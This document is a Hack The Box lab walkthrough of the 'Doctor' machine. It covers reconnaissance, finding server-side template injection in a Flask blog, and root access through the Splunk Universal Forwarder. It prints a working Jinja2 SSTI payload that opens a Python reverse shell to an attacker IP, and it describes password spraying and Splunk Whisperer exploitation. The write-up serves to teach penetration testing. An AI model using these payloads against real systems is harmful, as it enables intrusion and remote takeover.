Doctor was an interesting and fun box created by the user egotisticalSW which employed the use of an injection vulnerability in a web application to obtain a foothold and gain initial access. Privilege escalation was pretty straightforward and involved abusing the Splunk service running on the machine using a publicly available exploit.
Overview of the Target
- Operating System: Linux
- IP address: 10.10.10.209
- Difficulty: Easy
Scanning and Reconnaissance
As always we start off with an nmap scan to get an idea about what ports are open. These ports will serve as potential points of entry and will also provide us valuable information regarding the system. In the first scan we check all the 65535 ports to specify which ports are open, and in the second scan we will scan and dig deeper into the open ports. The command for the first scan is shown below.
sudo nmap -p- -oN nmap/Doctor-openports 10.10.10.209
- -p-: scan all ports (from 1 to 65535)
- -oN nmap/Doctor-openports: write the results of the scans to the file 'Doctor-openports' located in the nmap directory
Running this command gives us the below output,

Port 22 and 80 are well known ports running the SSH and HTTP services respectively. I didn't know what service was running on port 8089, but I had a hunch that it had something to do with HTTP since some administrators configure web servers on ports 8000 and 8080. Before using Google to confirm this we will run the second in-depth nmap scan of all these open ports using the below command.
sudo nmap -p 22,80,8089 -sC -sV -oN nmap/Doctor-full 10.10.10.209
- -p 22,80,8089: here we are instructing Nmap to only scan these three ports
- -sC: Performs a script scan using the default set of scripts.
- -sV: Enables version detection.
- -oN nmap/Doctor-full: write the results of the scans to the file 'Doctor-full' located in the nmap directory
From the above output, we can find quite a lot of useful information about the services running on the ports and about the system itself.
- Port 22 (SSH): Port 22 is running the OpenSSH package version 8.2p1 4ubuntu0.1. We could search this package version to potentially find out the version of the operating system itself.
- Port 80 (HTTP): Port 80 is an Apache web server running Apache 2.4.4.1
- Port 8089: Port 8089 seems to be serving a website too (one that utilizes SSL certificates). But the http-title and the version name displays 'Splunkd'. This was probably a Splunk web interface, so I decided to Google (at last) what this port 8089 was about.
For those who have no idea what Splunk is, I highly recommend reading this article. After Googling "Splunk port 8089" I found out that it is the default management port for all Splunk instances. So this is like the web management port for Splunk since it is using HTTPS.
The OpenSSH and Apache httpd package versions were released to Ubuntu Focal (20.04) and didn't have many vulnerabilities of interest that could allow an attacker an easy way in and we had no information on the Splunk service version. The system needed to be enumerated further.
Enumeration of the Splunk management service
The Splunk management port can be accessed by visiting the URL https://10.10.10.209:8089 on a web browser. Upon visiting, the below web page is presented.
From the displayed web page we can further gain information on when the Splunk service was updated (which was very recently) and most importantly the version of the service which was stated as 8.0.5. We could look this version up on Google to gain more information about the service and how to enumerate it further or for any exploits that could lead us in. The web page also displays a few links with interesting names but when clicked, the user is prompted to authenticate with their credentials. We had no available usernames or passwords to provide, and so tried out a few common default passwords (admin:admin, admin:password, administrator:password etc.). Upon searching Google for 'Splunk default credentials port 8089', I came across this article from 2018, which provided a lot of interesting and useful information including an exploit which we could potentially use for privilege escalation.
The article mentions that the default username-password combination is admin:changeme but the default credentials were not authenticated from remote hosts. But still it was worth a try..
The server does not accept the default credentials remotely like the article says and it is also extremely likely that the credentials had been changed. The writer mentions that bruteforcing the admin password is possible since their is no account lockout mechanism, but this is a last resort option.
The article mentions of a privilege escalation exploit with the management service. There are two ways of using the exploit, local privilege escalation to the user that the forwarder is running under, if the default password is not changed or remote command execution (with the privileges that the forwarder is running under) if the default password has been changed and is known to the attacker. The latter sounds interesting since it was likely that the default credentials were changed and if we got our hands on some credentials from further enumeration we could probably use it as a potential privilege escalation vector. The author also provides us the exploit called the "Splunk Whisperer" from his own GitHub repository.
Enumeration of the Apache web server
Since we couldn't find any credentials for the Splunk management console the target needed to be enumerated further. The target hosts an Apache web server on the common HTTP port 80. By keying in the address http://10.10.10.209 at the browser we are taken to a website which looks like an online medical services website.
In the web page we find an interesting piece of information- an email address showing us the domain name doctors.htb. This can be used to check whether the server is utilizing virtual hosting (hosting multiple domains on a single server).
When browsing through a target website it's always a good idea to set up Burp Suite with intercept off in the background, this way you can gather all the requests and responses to analyze when necessary. Since we haven't entered the domain name doctors.htb in our DNS records, we can use Burp Suite to check if virtual hosting is enabled. By sending a captured request to the Repeater tool and editing the Host field from 10.10.10.209 to doctors.htb we can observe the difference in the server responses. The below image is an unedited GET request to http://10.10.10.209 and in the response we can see that the response code is 200 OK implying success and we are served the web page.
However, upon changing the host field in the request to doctors.htb and sending it to the server we receive a different response. The new response is a redirect (302 FOUND) and we find some new information from the response fields. The server field says "Werkzeug/1.0.1 Python/3.8.2" (Werkzeug is a WSGI web application library used by Flask web applications, more on that here) and the location field is displayed as http://doctors.htb/login?next=%2F. These say that we are interacting with a whole new web application than the previous website. This confirms that the target has name-based virtual hosting enabled and there is a new and different domain called doctors.htb.
The first website (http://10.10.10.209) also had a list of potential usernames (the names of the doctors) and a few articles authored by a user 'admin' which was another username we could possibly use to enumerate the target further. However, these usernames didn't serve any purpose to root the target, but still it is recommended documenting the usernames you can find.
The results of a directory listing also revealed nothing interesting. The tool used here is dirsearch.py and it is a very fast and handy web directory bruteforcer which can be found here.
Enumerating doctors.htb website
Since the previous website (http://10.10.10.209/) did not provide any other useful information (the hyperlinks doesn't lead anyway either) we can instead focus on the other website that is being hosted on the target- http://doctors.htb. Before browsing the website the DNS entry of the domain name must be entered to the hosts file as shown below.
Upon visiting the website we are served a login page with options to log in, register a new account, and a possible password reset option.
After failing to log in via a combination of common passwords (admin, admin123, admin@123 etc..) for the email admin@doctors.htb (since we found out before about the admin user), I decided to attempt SQL injection. But this too was rendered fruitless. Since we didn't possess any valid credentials and our SQL injections were useless, it was time to check the other options.
The "Forgot password?" link directs us to a password reset page where the user is requested to enter their email to reset their own password. After attempting to change the email of the admin user we receive an error which tells us that the email doesn't exist. The same went for the email info@doctors.htb, so it can be assumed that the email was only a clue to lead us here.
The remaining option was to register a new account. The new account we are registering here uses the email testuser@doctors.htb (the email doesn't have to be doctors.htb) and the password test123.
Upon successful registration we are once again redirected to the login page and a message is displayed reading "Your acccount has been created with a time limit of 20 minutes!".
Upon logging in we can observe that the website is like a blog for the doctors where the user is able to create posts. Before testing out the message posting functionality I decided to run a directory brute force scan to find any hidden directories or files. To perform this we will once again use dirsearch with the following command.
sudo dirsearch -w /opt/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,html,txt,cgi -u http://doctors.htb/
- -w: path to wordlist to brute force
- -e: file extensions to check
- -u0: URL to brute force
From the directory brute force we find that there is an archive file and a reset_password file (which was the reset password web page from earlier). The archive file was new and we had not visited it before and it was worth checking out. Upon visiting http://doctors.htb/archive we are served a blank web page. There was no content on it and at first glance it seemed to be an empty page. However, the source code of the website shows us that this is actually an XML file.
 At this point I had no idea what this XML file's purpose was and I couldn't gain much information from it. But we will be returning here, because this page is actually the key to exploit this machine.
Returning back to the website I decided to test the message posting functionality. To do this we create a simple test post and post it into the website.
 Next, we can check if this message posting functionality was vulnerable to any form of cross-site scripting. To begin we can insert some simple HTML tags (bold tags, in this case) in our message and post this message to the blog. If the message text appears bold we can conclude that we have some form of cross-site scripting.
The above message however was just posted as it was. The HTML tags were not executed and the message was just displayed as it is. Of course, there are multiple ways of testing for cross-site scripting other than simple HTML tags but this didn't seem very likely.
However we were able to stumble upon something very interesting! When the archive page (http://doctors.htb/archive) was reloaded we were able to see some added content. It seems like the title section of the posts we created at the blog were added into this XML file. By inspecting the code we can notice that the title of the post is written inside the "< title >" tag. It is possible that this placement of tags is preventing our code from being executed.
The next step was to check if we could close the title tag and get our code to be executed. But upon revisiting the blog we find out that our account has expired and we needed to register again (to prevent this hassle, send the registration post request captured by Burp Suite to the repeater and send it to the server when the account expires). After re-registering,we crafted the below message and posted it. The 'cat' mentioned in the message just means cat, not the Linux 'cat' command.
Once the message is posted we visit the archive page and, voilà! we get our alert. We were able to close the title tag and execute the script successfully. But now what? How can we exploit this further to obtain a foothold on this machine?
After spending a lot of time trying to understand this vulnerability (because I had no idea how to get remote code execution out of this) and trying out various payloads to no avail, I remembered that we were on a Python web framework (Flask) and decided to use Google to look up what injection vulnerabilities were common in Flask web applications. According to this article (and almost every other link in the Google search) we find that server-side template injection (SSTI) is very common in Flask applications due to its template engine, Jinja2. After reading up a bit about SSTI vulnerabilities we find that the vulnerability arises when a malicious user enters template syntax instead of normal input and this template code gets executed in the server-side (read more about SSTI here). The next step now is to confirm whether this is actually SSTI and not something else. For this I used the HackTricks page on SSTI as a guide to follow and it mentions that SSTI can be easily mistaken for cross-site scripting and a good way to differentiate the two is by trying a mathematical operation within a template syntax. HackTricks also provided us with a flowchart of various payloads that can be used to identify the template engine that is running in the back-end.
Since we know that we are interacting with a Flask application and know that Flask depends of Jinja as its template engine we could skip a few steps mentioned above and try the {{7*'7'}}payload. In this case we will follow the chart from the beginning and try out the ${7*7} as below.
And then after reloading the archive page we see that the code was not executed. This means that the template engine was either Jinja or Twig (or maybe the template engine was not vulnerable?).
According to the flowchart the next payload to try out was {{7*7}}. After posting this payload as shown below and reloading the archive page we see an alert pop up displaying 49. This confirms the presence of the SSTI vulnerability.
Exploiting Server-side Template Injection
The next payload {{7*'7'}} was entered to confirm that the template engine was Jinja2 which i was most likely to be. The script was executed and the output was shown as 7777777.
At this point we can be sure that the template engine used by the server is Jinja2. After a bit more reading SSTI can be used to obtain a shell via remote code execution on the web server. The PayloadsAllTheThings repository contains a lot of payloads that can be tested to obtain a shell. By setting up a listener using netcat on port 13337 and sending out the below payload we are able to obtain a reverse shell when the archive page is reloaded.
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.45\",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %} 

According to the above output we can observe that we have successful access to the target as the user "web". The nect step would be to escalate our privileges to somehow obtain root access.
Target Enumeration & Privilege Escalation
Listing the contents of the home directory we find a directory called "shaun" which is probably a home directory of a user in the system (check the passwd file to confirm). After listing the contents of this directory we find the user flag which however could only be read by the user shaun. This means that we will probably have to escalate our privileges as either shaun (or maybe even higher, root).
For privilege escalation I used the LinPEAS privilege escalation script which can be cloned from this repository. What privilege escalation scripts do is automate the enumeration process and display the results of possible privilege escalation vectors. These scripts are very handy and can be used after manual enumeration to make sure that you didn't miss anything important and to save time. The LinPEAS script must be run on the target itself so we used the wget command to download it from our local machine and made it an executable by using the chmod +x linpeas.sh.
Running the script displays a lot of output which must be read thoroughly as to not miss anything important (it is recommended to pipe the output into a separate file if possible). In our case we find that the script has found something interesting within the log files.
The interesting entry was a POST request made by the reset password functionality at the doctors.htb website with a string identical to a password in the "email" parameter. There is no indication of whose password this was but it was worth trying out a password spray where we will attempt to login using this password with known usernames.
The password failed against the root account which was the first we tried but it was successful in logging in to the shaun user account. We have successfully escalated our privileges and was able to read the user flag! (Also upgraded the shell using a Python one-liner)

Privilege Escalation via Splunk Universal Forwarder
Going back to the privilege escalation exploit we read earlier where an attacker could gain remote code execution with the privileges that the universal forwarder is running under if we have a valid user name and password other than the default credentials. Since we possess a password of the user "Shaun" we could try to log in into the Splunk service at port 8089.
The credentials of user shaun was successful in logging into the Splunk service. The dashboard provided a different set of links such as admin,auth, and authorization etc. But none of these had anything further interesting. Since we now have access to the Splunk service we can check to see the Splunk service is running as root.
The above output shows us that the splunkd daemon is running under root and if the exploit works as it says we would be able to gain root access. HackTricks also had a page regarding about this exploit and also provided a link to a tool called Splunk Whisperer 2. The tool includes two Python scripts PySplunkWhisperer2_local.py and PySplunkWhisperer2_remote.py with the latter being recommended if the Splunk Universal Forwarder is exposed (like it is in port 8089).
After cloning the exploit repository to our local system install any requirements mentioned in the requirements.txt file using pip3 install -r requirements.txt. According to the examples shown by the HackTricks page we are able to send bash commands using the --payload argument. We could use this to gain a reverse shell from the target as root (since the Splunk service is running under root). Since netcat (and better yet, nc.traditional) was already installed on the target system we could start a listener on the attacking machine and tell the target system to connect back to us with a bash shell using netcat.
After starting up a netcat listener on port 13337 on the attacking machine and running the exploit tool with the mentioned arguments we are able to see that the target successfully connected to our netcat listener. The arguments provided for the script are,
- --host: IP address of target running the Splunk Universal Forwarder
- --port: Port number of the Splunk Universal Forwarder
- --lhost: IP address of the attacking machine
- --username: Splunk authentication username
- --password: Password for username provided
- --payload: Payload to be executed
The target was able to connect back to the listener with a simple bash shell as root. We now have root access into the system and can view the final flag within the root directory.
 